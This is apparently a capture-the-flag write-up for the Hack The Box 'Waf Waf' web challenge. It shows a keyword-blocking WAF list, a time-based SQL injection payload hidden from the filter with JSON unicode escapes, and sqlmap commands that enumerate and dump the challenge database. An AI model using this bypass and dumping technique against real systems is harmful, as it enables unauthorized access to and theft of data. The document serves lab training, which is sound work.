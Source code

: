 # Waf Waf Challenge HTB

<img src="img/hackthebox.png">

When we open the page we get:

<img src="img/page.png">

We can see what looks like the ```index.php``` of the page.
In the script you can see that a SQL database is queried and the input of POST requests is filtered using a basic WAF (Web Application firewall), implemented through the ```waf()``` function of the ```db``` class.

<img src="img/pagehigh.png">

The script ends immediately when at least one of the following characters or strings is found
in the input string:

```
[, (, *, <, =, >, |, ', &, -, @, ], select, and, or, if, by, from, where,
as, is, in, not, having
```

The check is not case sensitive.
So this looks like vulnerable to a SQL injection.

Checking what happens when we make a request with one of the words that are filtered by the waf:

```bash
└─# curl http://139.59.174.238:32044/ -X POST -d '{"user":"select"}'
array(1) {
  [0]=>
  string(6) "select"
}
```

A subsequent json_decode is performed on the input string, for what the script expects to receive JSON objects.
Because decoding the string happens after the function checks waf () we can take advantage of the fact that in JSON it is possible to encode characters in UTF-16, which when decoding the JSON, will return to the format original.
Let's do a test:

Para ello haremos una peticion POST con curl la cual capturaremos con Burp Suite (```http://127.0.0.1:8080 ``` es la dirección y puerto del proxy de burp suite)

```bash
└─# curl http://139.59.174.238:32044/ -X POST -d '{"user":"d"}' -x http://127.0.0.1:8080  
```

<img src="img/burp.png">

Once the request is captured, we will send it to the repeater

Where we send it and we appreciate the 149 bytes of the response

<img src="img/burp2.png">

Later we will test if we can evade the waf with a sqli payload, we will use the following payload ```' or sleep(10) #``` which we will encode it to UTF-16 since as we saw previously we will proceed to a ```json_decode ()```.

I use this [unicode converter](https://www.branah.com/unicode-converter)

<img src="img/unicode.png">

Now we load the payload in the request and send it:

<img src="img/burp3.png">

Where we can see that we get a 200 and that there are still 149 response bytes.

Now we will copy the request to a file putting ```*``` where we want the payload to be loaded.

<img src="img/petition.png">

To obtain information in this case we will use a Blind SQL Injection and we will execute the following ```sqlmap``` command we should get the databases available:

```bash
─# sqlmap -r requestt.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T --dbs --dbms=mysql
```

<img src="img/databases.png">

We have five databases db_m8452, info_schema, mysql, performance_schema, sys.
Let's extract the list of tables from the database. db_m8452:

```bash
└─# sqlmap -r requestt.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 --tables --dbms=mysql
```


<img src="img/dbtables.png">

The db_m8452 database has two tables, ```definitely_not_a_flag``` and ```notes```. Now let's dump the contents of the table ```definitely_not_a_flag```:

```bash
└─# sqlmap -r requestt.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 -T definitely_not_a_flag --dump --dbms=mysql
```

many payloads later .. we got the flag.

<img src="img/dumpflag.png">

Byee
